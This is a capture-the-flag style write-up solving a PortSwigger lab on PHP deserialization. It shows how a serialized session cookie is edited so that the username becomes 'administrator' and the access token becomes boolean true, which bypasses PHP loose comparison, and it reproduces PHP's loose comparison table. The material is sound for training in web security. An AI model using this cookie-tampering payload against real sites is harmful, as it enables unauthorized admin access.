 # [Lab: Modifying serialized data types](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)

## Lab

This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the `administrator` account. Then, delete Carlos.

You can log in to your own account using the following credentials: `wiener:peter`

## Characteristic

bypass loose comparisons with == in php

## Analysis

detected serialized php object at session cookie.

wiener session:

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"f911jjulirvvgs7f7euhyhfbocd26cej";}
```

serialized object have `access_token` field, maybe it will be compared with the access_token on the server side: `true_access_token == incoming_access_token` ?

## Solutions

modify serialized object:

from:

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"f911jjulirvvgs7f7euhyhfbocd26cej";}
```

to:

```php
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";b:1;}
```

bypassed loose comparisons with == in php

## php loose comparisons table

ref: <https://www.php.net/manual/en/types.comparisons.php>

|| **`true`** | **`false`** | `1` | `0` | `-1` | `"1"` | `"0"` | `"-1"` | **`null`** | `[]` | `"php"` | `""` |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| **`true`** | **`true`** | **`false`** | **`true`** | **`false`** | **`true`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** |
| **`false`** | **`false`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`true`** | **`true`** | **`false`** | **`true`** |
| `1` | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** |
| `0` | **`false`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`*** | **`false`*** |
| `-1` | **`true`** | **`false`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** |
| `"1"` | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** |
| `"0"` | **`false`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** |
| `"-1"` | **`true`** | **`false`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** |
| **`null`** | **`false`** | **`true`** | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** | **`true`** | **`true`** | **`false`** | **`true`** |
| `[]` | **`false`** | **`true`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`true`** | **`true`** | **`false`** | **`false`** |
| `"php"` | **`true`** | **`false`** | **`false`** | **`false`*** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`false`** | **`true`** | **`false`** |
| `""` | **`false`** | **`true`** | **`false`** | **`false`*** | **`false`** | **`false`** | **`false`** | **`false`** | **`true`** | **`false`** | **`false`** | **`true`** |
